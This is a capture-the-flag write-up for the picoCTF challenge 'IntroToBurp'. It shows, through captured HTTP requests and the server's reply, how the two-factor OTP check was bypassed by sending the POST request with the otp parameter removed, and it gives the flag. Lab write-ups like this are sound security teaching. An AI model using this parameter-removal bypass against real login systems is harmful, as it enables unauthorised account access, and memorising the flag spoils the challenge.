


# IntroToBurp (100 points)
Try [here](http://titan.picoctf.net:53988/) to find the flag

## Solution
We find a registering page if we connect to the website:


If we fill out this data and submit we will be redirected to 2-FA authentication check:


Both site create a POST request with our given data. But the second is interesting for us:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:53467
Content-Length: 4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:53467
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:53467/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jcEOwiAQRP-FswegpYg_Q7awG40tEBZijPHfxR56m3mTmfmI8GhvcRMUgcVFBK7kW35iGixeSYEDF7WNqKWaZZALKVqADJKdcQ3SSu1Gj_q2-QQ7HlMD5FaG1MbM0zRsAeZXrvGI_0flnhP61PcV6wk7Yz1HGMT3BybNMRU.ZfmHFA.kRaIW1wVvT4yFy-IED_2MaUvy2Q
Connection: close

otp=test
```

We can either interrupt the request and manipulate it before forwarding it, or we can send it in Burp to the Repeater, manipulate and resend it to the server.

The goal is probably to get a valid OTP code or to bypass it. I tried several inputs but nothing was successful. Than I tried to remove the key `opt=` entirely:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:53467
Content-Length: 4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:53467
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:53467/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jcEOwiAQRP-FswegpYg_Q7awG40tEBZijPHfxR56m3mTmfmI8GhvcRMUgcVFBK7kW35iGixeSYEDF7WNqKWaZZALKVqADJKdcQ3SSu1Gj_q2-QQ7HlMD5FaG1MbM0zRsAeZXrvGI_0flnhP61PcV6wk7Yz1HGMT3BybNMRU.ZfmHFA.kRaIW1wVvT4yFy-IED_2MaUvy2Q
Connection: close


```

And that worked. The flag is in the response:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Tue, 19 Mar 2024 12:39:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 105
Vary: Cookie
Connection: close

Welcome, fdsa you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}
```
